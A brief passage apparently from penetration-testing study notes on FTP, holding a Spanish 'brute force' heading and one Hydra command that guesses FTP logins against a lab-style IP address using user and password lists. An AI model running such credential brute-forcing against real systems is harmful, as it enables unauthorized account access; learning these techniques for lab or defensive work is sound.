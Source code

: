 File Transfer Protocol

## FUERZA BRUTA
#### Hydra
```ruby
hydra -L user.list -P password.list ftp://10.129.42.197
```








